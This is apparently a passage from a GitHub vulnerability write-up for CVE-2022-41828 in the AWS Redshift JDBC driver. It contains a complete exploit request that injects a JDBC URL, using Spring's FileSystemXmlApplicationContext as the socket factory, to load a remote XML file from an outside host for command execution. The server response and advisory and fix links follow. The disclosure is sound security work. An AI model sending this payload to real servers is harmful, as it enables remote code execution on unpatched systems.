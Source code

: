 To trigger/exploit the vulnerability, a request along with the payload is sent as follows.
```
POST /jdbcset HTTP/1.1
Host: 127.0.0.1:8081
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 173

jdbc=jdbc:redshift://127.0.0.1:5439/testdb;socketFactory=org.springframework.context.support.FileSystemXmlApplicationContext;socketFactoryArg=http://172.22.0.43:2121/cmd.xml
```

```
HTTP/1.1 500 
Content-Type: application/json
Date: Thu, 08 Dec 2022 13:58:14 GMT
Connection: close
Content-Length: 108

{
  "timestamp": "2022-12-08T13:58:14.295+00:00",
  "status": 500,
  "error": "Internal Server Error",
  "path": "/jdbcset"
}
```
![request-and-response](https://user-images.githubusercontent.com/16391655/206471800-d69f11c0-0e0e-46c7-93ae-88407ec219f3.png)

https://user-images.githubusercontent.com/16391655/206683655-950cd80e-e5d2-45ab-b3eb-64d7f29d8315.mp4

### References
For more information about remediation of this vulnerability, please visit the following resources:
- GitHub Advisory Database: [`AWS Redshift JDBC Driver fails to validate class type during object instantiation`](https://github.com/advisories/GHSA-5c6q-f783-h888)
- GitHub Advisory Database: [`Potential remote command execution within redshift-jdbc-42 <= 2.1.0.7`](https://github.com/aws/amazon-redshift-jdbc-driver/security/advisories/GHSA-jc69-hjw2-fm86)
- Commit for Release of 2.1.0.8 version: [`aws/amazon-redshift-jdbc-driver@40b143b`](https://github.com/aws/amazon-redshift-jdbc-driver/commit/40b143b4698faf90c788ffa89f2d4d8d2ad068b5)
- Commit for Fix Object Factory to check class type when instantiating an object from class: [`aws/amazon-redshift-jdbc-driver@9999659`](https://github.com/aws/amazon-redshift-jdbc-driver/commit/9999659bbc9f3d006fb02a0bf39d5bcf3b503605)
- Tenable Advisory: [`CVE-2022-41828`](https://www.tenable.com/cve/CVE-2022-41828)
- NIST Advisory: [`CVE-2022-41828`](https://nvd.nist.gov/vuln/detail/CVE-2022-41828)
- MITRE Advisory: [`CVE-2022-41828`](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2022-41828)

### Credits
- Special thanks to [Bearcat](https://twitter.com/d9g3gg) helping me during reproduction of this vulnerability.
